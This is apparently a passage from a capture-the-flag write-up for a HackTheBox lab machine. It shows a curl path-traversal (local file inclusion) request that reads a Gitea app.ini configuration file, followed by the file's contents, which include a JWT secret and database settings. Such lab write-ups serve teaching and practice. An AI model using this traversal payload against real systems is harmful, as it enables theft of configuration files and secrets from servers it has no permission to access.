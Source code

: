 Exploiting the LFI web vulnerability in the main website we can get the contain of the config file.

{% code overflow="wrap" %}
```bash
curl 'http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/conf/app.ini'

APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

[repository]
ROOT = /data/git/repositories

[repository.local]
LOCAL_COPY_PATH = /data/gitea/tmp/local-repo

[repository.upload]
TEMP_PATH = /data/gitea/uploads

[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

[indexer]
ISSUE_INDEXER_PATH = /data/gitea/indexers/issues.bleve

[session]
PROVIDER_CONFIG = /data/gitea/sessions
PROVIDER = file

[picture]
AVATAR_UPLOAD_PATH = /data/gitea/avatars
REPOSITORY_AVATAR_UPLOAD_PATH = /data/gitea/repo-avatars

[attachment]
PATH = /data/gitea/attachments

[log]
MODE = console
LEVEL = info
ROOT_PATH = /data/gitea/log

```